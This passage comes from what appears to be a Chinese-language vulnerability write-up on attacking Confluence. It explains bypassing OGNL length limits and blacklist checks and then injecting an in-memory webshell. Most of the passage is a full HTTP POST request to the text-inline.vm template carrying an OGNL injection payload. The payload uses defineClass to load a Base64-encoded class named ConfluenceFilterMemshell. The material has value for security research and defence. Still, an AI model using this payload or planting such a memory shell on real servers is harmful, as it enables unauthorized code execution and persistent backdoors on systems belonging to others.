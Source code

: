 可以看到，成功进入该方法设置属性值，第二次访问会发现属性已经被覆盖。

[![](assets/1709112096-8c658d7f01ce886dd0fcb7dbbf1cc8bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111525-737c1f8a-d51e-1.png)

### 0.2.2.2 内存马注入

既然长度限制被我们解决了，那就可以注入内存马了，现在需要绕过的是 Ognl 内置的 EvalChain 检测和黑名单，这里我选择直接 defineclass。

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11331

label=aaa\u0027+#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})+\u0027&poc=(@org.springframework.cglib.core.ReflectUtils@defineClass('ConfluenceFilterMemshell',@org.springframework.util.Base64Utils@decodeFromString(''),@java.lang.Thread@currentThread().getContextClassLoader())).newInstance()
```

那么我们还该思考内存马怎么去构造，这里可以直接参考 beichen 师傅之前的内存马，但是需要做一些微小的变化
